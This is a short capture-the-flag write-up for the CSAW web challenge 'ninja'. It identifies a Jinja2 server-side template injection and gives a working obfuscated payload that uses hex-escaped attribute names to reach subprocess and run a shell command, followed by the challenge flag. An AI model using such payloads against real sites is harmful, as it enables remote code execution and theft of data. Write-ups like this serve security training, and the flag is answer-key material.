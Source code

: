 # ninja
Category: web  
Description: Hey guys come checkout this website i made to test my ninja-coding skills.  
http://web.chal.csaw.io:5000  
_______________________________________________________________  
Type: SSTI  
Template Engine: Jinja2  
payloads: `{{ ()|attr('\x5f\x5fclass\x5f\x5f')|attr(['\x5f\x5f','ba','se','\x5f\x5f']|join)|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(258)('cat flag.txt',shell=True,stdout=-1)|attr('communicate')()}}`  
flag: flag{m0mmy_s33_1m_4_r34l_n1nj4}
